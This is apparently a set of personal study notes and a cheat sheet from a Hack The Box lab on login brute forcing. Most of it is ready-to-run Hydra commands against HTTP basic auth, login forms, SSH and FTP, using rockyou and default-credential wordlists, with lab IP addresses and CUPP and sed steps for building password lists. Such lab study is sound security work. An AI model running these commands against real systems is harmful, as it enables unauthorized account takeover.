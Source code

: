 # Login Brute Forcing

# Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |

# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/opt/useful/SecLists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List |
| `ssh b.gates@SERVER_IP -p PORT` | SSH to Server |
| `ftp 127.0.0.1` | FTP to Server |
| `su - user` | Switch to User |


```shell
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

## Username/Password Attack

```shell
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

## Username Brute Force

```shell
hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

hydra -L /usr/share/seclists/Usernames/sap-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -u -f 134.122.105.208 -s 32326 http-get /

hydra -l admin -P /usr/share/wordlists/rockyou.txt -u -f 134.122.105.208 -s 32326 http-get /


```


## Brute Forcing Forms

```shell
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

To find out how to use the http-post-form module, we can use the "-U" flag to list the parameters it requires and examples of usage:


```shell
hydra http-post-form -U
```

## Login Form Attacks

Let's try to use the ftp-betterdefaultpasslist.txt list with the default credentials to test if one of the accounts is registered in the web application.

```shell
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

### Password Wordlist

```shell
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt 134.122.105.208 -s 32326 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```


## CUPP

```shell
f3nr1r@htb[/htb]$ cupp -i
```

```shell
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

## ssh

```shell
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```
```shell
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```


exo: 

```shell
╰─○ hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 157.245.37.208 -s 30101 http-get /   


╰─○ hydra -l user -P /usr/share/wordlists/rockyou.txt  -u -f 157.245.37.208 -s 30101 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'" -I

```
